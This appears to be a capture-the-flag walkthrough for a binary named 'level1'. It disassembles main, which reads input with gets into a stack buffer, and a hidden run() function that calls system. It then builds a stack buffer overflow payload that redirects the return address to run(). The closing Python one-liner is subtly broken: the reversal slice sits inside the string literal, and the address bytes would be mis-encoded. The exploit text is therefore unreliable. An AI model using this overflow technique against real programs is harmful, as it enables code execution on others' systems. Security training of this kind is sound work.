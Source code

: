 **Basic examination**

Again, only one file, "level1" to run. Let's try it.
~~~bash
./level1
|
~~~
Exacutable waits for the user input and than exits. 

**Assembly dump analysis**

The assembly dump for a main function in **gdb** tool will show us more:
~~~assembly
   0x08048480 <+0>:	push   %ebp
   0x08048481 <+1>:	mov    %esp,%ebp
   0x08048483 <+3>:	and    $0xfffffff0,%esp       ;stack allignment up to this point.
   0x08048486 <+6>:	sub    $0x50,%esp             ;allocates 80 bytes (0x50 in hex) to the stack
                                                  ;there would be some variable declared with memory allocated.
   0x08048489 <+9>:	lea    0x10(%esp),%eax    
   0x0804848d <+13>:	mov    %eax,(%esp)           ;moves the addressin EAX (buffer) to the top of the stack
   0x08048490 <+16>:	call   0x8048340 <gets@plt>  ;calls the gets function (reads the line of input from user
                                                   ;and stores it into the buffer.
   0x08048495 <+21>:	leave
   0x08048496 <+22>:	ret                          ;pops the return address from the stack and jumps to it
~~~

As we can see, the main allocates 80 bytes on the stack, calculates the pointer to the buffer for gets, calls gets and returns, with no other procedures. This looks like a dead end and we need to examine further, so we list all the functions in gdb, using **info functions** command. From the listing, **run()** looks like our way forward, as also the assembly dump suggest by calling a system function:
~~~assembly
   0x08048444 <+0>:	push   %ebp
   0x08048445 <+1>:	mov    %esp,%ebp
   0x08048447 <+3>:	sub    $0x18,%esp
   0x0804844a <+6>:	mov    0x80497c0,%eax
   0x0804844f <+11>:	mov    %eax,%edx
   0x08048451 <+13>:	mov    $0x8048570,%eax
   0x08048456 <+18>:	mov    %edx,0xc(%esp)
   0x0804845a <+22>:	movl   $0x13,0x8(%esp)
   0x08048462 <+30>:	movl   $0x1,0x4(%esp)
   0x0804846a <+38>:	mov    %eax,(%esp)
   0x0804846d <+41>:	call   0x8048350 <fwrite@plt>      ;writing a message
   0x08048472 <+46>:	movl   $0x8048584,(%esp)
   0x08048479 <+53>:	call   0x8048360 <system@plt>      ;calling system function, pattern that we identified in the                                                            ;previous level
   0x0804847e <+58>:	leave  
   0x0804847f <+59>:	ret  
~~~
There is no direct call from **main** to run run(), so we need to somehow force the execution workflow to run it. This will be done using **buffer overflow** (stakc frame and principles of buffer overflow beautifully explained [**HERE**](https://www.cameronwickes.co.uk/stack-frames-pointers/).  

## Buffer overflow
The memory address of the run is **0x08048444**as we can see from the previous info functions command in gdb. Now we just need and offset to get the location of the proper position to rewrite in stack frame of the program. We can use some pattern generator (like [**Wiremask**](https://wiremask.eu/tools/buffer-overflow-pattern-generator/) along with gdb to calculate it. Running a program with dummy pattern will give us a segfault, but gdb will tell us it happens at **0x63413563**. We put this to Wiremask tool to find out the offset is 76.
Now we can create a string to send to the program that will contain the memory address of the run() function right after the offset, thus forcing it to execute as return address. We can do this using a simple python script and a pipe to send the output to the program as stdin:
~~~bash
python3 -c 'print("42" * 38 + "\x08\x04\x84\x44[::-1]")' | ./level1
~~~



